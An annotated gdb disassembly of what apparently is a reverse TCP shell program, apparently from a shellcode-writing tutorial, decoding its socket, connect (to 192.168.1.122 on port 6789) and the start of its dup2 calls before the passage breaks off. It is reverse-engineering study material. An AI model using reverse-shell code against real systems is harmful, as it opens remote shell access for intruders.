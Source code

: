 ```nasm
   ; socket --------------------------------------------------------------------------
   0x004006c8 <+59>:	push   0x0
   0x004006ca <+61>:	push   0x1
   0x004006cc <+63>:	push   0x2
   0x004006ce <+65>:	call   0x400500 <socket@plt>
   ; gdb$ x/3w $esp
   ; 0xbffff010:	0x00000002	0x00000001	0x00000000
   ; 
   ; parameters:
   ; 0x00000002 = AF_INET
   ; 0x00000001 = SOCK_STREAM
   ; 0x00000000 = IPPROTO_IP
   ; ---------------------------------------------------------------------------------

   ; connect -------------------------------------------------------------------------
   0x004006d3 <+70>:	add    esp,0x10
   0x004006d6 <+73>:	mov    DWORD PTR [ebp-0x20],eax
   0x004006d9 <+76>:	mov    WORD PTR [ebp-0x1c],0x2
   0x004006df <+82>:	sub    esp,0xc
   0x004006e2 <+85>:	push   DWORD PTR [ebp-0x28]
   0x004006e5 <+88>:	call   0x400510 <inet_addr@plt>
   0x004006ea <+93>:	add    esp,0x10
   0x004006ed <+96>:	mov    DWORD PTR [ebp-0x18],eax
   0x004006f0 <+99>:	mov    eax,DWORD PTR [ebp-0x24]
   0x004006f3 <+102>:	movzx  eax,ax
   0x004006f6 <+105>:	sub    esp,0xc
   0x004006f9 <+108>:	push   eax
   0x004006fa <+109>:	call   0x4004d0 <htons@plt>
   0x004006ff <+114>:	add    esp,0x10
   0x00400702 <+117>:	mov    WORD PTR [ebp-0x1a],ax
   0x00400706 <+121>:	sub    esp,0x4
   0x00400709 <+124>:	push   0x10
   0x0040070b <+126>:	lea    eax,[ebp-0x1c]
   0x0040070e <+129>:	push   eax
   0x0040070f <+130>:	push   DWORD PTR [ebp-0x20]
   0x00400712 <+133>:	call   0x400520 <connect@plt>
   ; gdb$ x/3w $esp
   ; 0xbffff010:	0x00000003	0xbffff03c	0x00000010
   ; 
   ; parameters:
   ; 0x00000003 = sockfd
   ; 0xbffff03c = address of sockaddr struct
   ; 
   ; gdb$ x/8c 0xbffff03c
   ; 0xbffff03c:	0x2	0x0	0x1a	0x85	0xc0	0xa8	0x1	0x7a
   ;
   ; parameters:
   ; 0x2	0x0 = AF_INET
   ; 0x1a	0x85 = Port number (6789)
   ; 0xc0	0xa8	0x1	0x7a = IPv4 address (192.168.1.122)

   gdb$ x/13b $ebp-0x18
0xbffff030:	0xc0	0xa8	0x01	0x7a	0xf4	0xf0	0xff	0xbf
0xbffff038:	0xfc	0xf0	0xff	0xbf	0x00
   ; ---------------------------------------------------------------------------------

   ; dup2 ----------------------------------------------------------------------------
   0x00400717 <+138>:	add    esp,0x10
   0x0040071a <+141>:	mov    DWORD PTR [ebp-0x2c],0x0
   0x00400721 <+148>:	jmp    0x400738 <main+171>
   0x00400723 <+150>:	sub    esp,0x8
   0x00400726 <+153>:	push   DWORD PTR [ebp-0x2c]
   0x00400729 <+156>:	push   DWORD PTR [ebp-0x20]
```